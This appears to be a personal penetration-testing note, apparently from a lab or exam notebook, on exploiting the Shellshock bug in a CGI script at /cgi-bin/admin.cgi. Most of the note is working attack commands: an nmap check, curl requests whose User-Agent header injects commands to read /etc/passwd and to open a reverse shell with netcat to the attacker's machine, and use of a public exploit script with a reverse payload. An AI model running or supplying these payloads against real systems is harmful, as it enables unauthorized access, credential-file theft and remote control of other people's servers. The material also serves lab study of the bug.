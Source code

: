 ```yaml
---
category: Uncategorized
tags: []
---
```

https://www.sevenlayers.com/index.php/125-exploiting-shellshock

Nikto:

![[Pasted image 20220615122716.png]]

`/cgi-bin/admin.cgi`

Check with nmap:
```bash - kali
nmap $TARGET -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```

exploit with curl:
```bash - kali
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$TARGET/cgi-bin/admin.cgi
```

```bash - kali
curl -H "user-agent: () { :; }; echo; echo; /bin/nc -e /bin/bash $KALI 443" http://$TARGET/cgi-bin/admin.cgi
```

Or use

exploit 34900.py

```bash - kali
searchsploit -m 34900
```

May need to manually edit exploit to include cgi-bin target:

![[Pasted image 20220615123539.png]]

```bash - kali
python 34900.py payload=reverse rhost=$TARGET lhost=$KALI lport=444
```